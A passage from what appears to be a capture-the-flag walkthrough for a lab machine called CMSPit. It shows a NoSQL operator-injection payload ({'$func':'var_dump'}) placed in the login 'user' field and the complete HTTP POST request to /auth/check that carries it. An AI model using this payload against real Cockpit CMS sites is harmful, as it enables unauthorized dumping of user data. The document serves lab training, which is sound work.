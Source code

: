 ![Untitled](/assets/CMSPit%20images/Untitled%202.png)

Modify the **”user”** data to:

```
"user":"admin" -> "user": {"$func":"var_dump"}
```

```
POST /auth/check HTTP/1.1
Host: cmspit.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=UTF-8
Content-Length: 175
Origin: http://cmspit.thm
Connection: close
Referer: http://cmspit.thm/auth/login?to=/
Cookie: 8071dec2be26139e39a170762581c00f=tpd4vub3jm08vns2gln5nadmgb

{"auth":{"user":{
"$func": "var_dump"
},"password":"admin"},"csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"}
```
